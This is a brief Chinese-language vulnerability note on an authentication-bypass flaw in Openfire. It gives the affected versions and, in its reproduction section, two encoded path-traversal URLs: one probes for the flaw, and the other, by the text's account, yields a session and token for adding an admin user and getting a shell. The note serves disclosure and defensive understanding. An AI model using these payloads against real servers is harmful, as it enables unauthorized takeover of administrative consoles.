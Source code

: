 #### 影响范围

3.10.0 <= Openfire < 4.6.8 

4.7.0 <= Openfire < 4.7.5

#### 漏洞概述

Openfire是⼀个基于XMPP协议的实时协作服务器，它是⼀个开源的项⽬， 使⽤Apache许可证授权，它可以⽀持多种平台，提供强⼤的安全性和性能。XMPP是⼀种开放的即时通讯协议，也叫做Jabber。openfire可以⽤来搭建聊天室， 群组，视频会议等应⽤，Openfire还提供了多种插件和扩展，以增强其功能和兼容性，Openfire在3.10.0-4.6.7和4.7.0-4.7.4版本中存在身份认证绕过漏洞， 这允许未经身份验证的⽤户在已配置的Openfire环境中使⽤未经身份验证的Openfire安装环境，以访问Openfire管理控制台中为管理⽤户保留的受限⻚⾯

#### 漏洞复现

可以通过以下连接进⾏探测漏洞

```
/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

随后通过一下连接获取session与csrftoken添加⽤户后台Getshell

```
/setup/setup-s/%u002e%u002e/%u002e%u002e/user-groups.jsp
```





